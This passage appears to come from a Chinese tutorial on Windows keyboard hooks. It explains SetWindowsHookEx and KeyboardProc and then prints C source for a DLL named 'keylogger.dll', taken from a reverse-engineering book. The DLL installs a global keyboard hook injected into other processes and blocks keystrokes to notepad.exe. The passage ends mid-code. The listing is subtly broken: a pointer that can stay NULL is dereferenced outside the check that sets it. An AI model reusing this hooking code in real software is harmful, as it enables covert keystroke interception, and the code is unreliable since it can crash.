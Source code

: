 如果函数成功，则返回值是挂钩过程的句柄；如果函数失败，则返回值为 **NULL**。 要获得更多的错误信息，请调用 GetLastError。

- KeyboardProc函数

这是 **键盘钩子**的处理函数，这个函数是可以进行重命名的，但是参数不能变，使用这个函数的前提是SetWindowsHookEx函数的第一个参数必须是WH_KEYBOARD，才能使用。相当于一个配套设施了。

```c
LRESULT CALLBACK KeyboardProc(
  _In_ int    code,
  _In_ WPARAM wParam,
  _In_ LPARAM lParam
);
```

### 实现过程

简单起见，直接使用《逆向工程核心原理》的敲击记录的代码来做实验。

keylogger.dll，用来准备注入 dll 程序。

```c
#include<stdio.h>
#include<windows.h>

HINSTANCE g_hInstance = NULL;
HHOOK g_hHook = NULL;
HWND g_hWnd = NULL;

#define DEF_PROCESS_NAME "notepad.exe"

// 这个回调函数用来处理键盘输入
LRESULT CALLBACK KeyboardProc(int nCode, WPARAM wParam, LPARAM lParam)
{
	char szPath[MAX_PATH] = {0};
	char* p = NULL;
	
	if(nCode >= 0)
	{
		if(!(lParam & 0x80000000))
		{
			GetModuleFileNameA(NULL, szPath, MAX_PATH);
			// 取\\之后的字符，用来判断是不是目标进程notepad。
            p = strrchr(szPath, '\\');
		}
	}
	
	if( !_stricmp(p + 1, DEF_PROCESS_NAME) )
        return 1;
    
    // 不是就换下一个函数
	return CallNextHookEx(g_hHook, nCode, wParam, lParam);
}

// 利用api启动挂钩
__declspec(dllexport) void StartHook()
{
	g_hHook = SetWindowsHookEx(WH_KEYBOARD, KeyboardProc, g_hInstance, 0);
}

// 取消挂钩
__declspec(dllexport) void StopHook()
{
    // 先检查一下第一步挂钩是否成功，是被就不用了
	if(g_hHook)
	{
		UnhookWindowsHookEx(g_hHook);
```